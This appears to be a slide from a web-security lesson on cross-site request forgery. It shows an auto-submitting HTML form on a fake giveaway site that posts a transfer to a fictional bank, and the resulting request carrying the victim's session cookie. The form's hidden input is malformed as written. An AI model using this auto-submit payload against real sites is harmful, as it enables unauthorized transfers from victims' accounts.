

## $\textnormal{What Just Happened?}$

> - Behind the scenes, when our victims visited our malicious <br />
    site `saturnbankgiveaway.com`, a POST request was triggered <br />
    and sent off to the legitimate Saturn Bank application.

> - The JavaScript sitting in the “script” tags ensures that <br />
    the form is submitted as soon as the user loads the page, <br />
    without any user interaction required, or the user even <br />
    noticing what is happening.

```html
<html>
  <body>
    <form action="https://saturnbank.com/transfer" method="POST">
      <input type="hidden" bsb="421314" accountNo="1736123125" amount="100" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

<br />

< - The request contains the legitimate user’s session cookie, <br />
    but contains our bank account number!

```plaintext
POST /transfer HTTP/1.1
Host: saturnbank.com
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Cookie: session=OM19vamvikL4yvPQfTqrcjW2ItpDAkDm
bsb=421314&accountNo=1736123125&amount=100
```

<br />

| CSRF Attack Illustration |
| ------------------------ |
|  |

<br />

| CSRF Attack Conditions |
| ---------------------- |
|  |
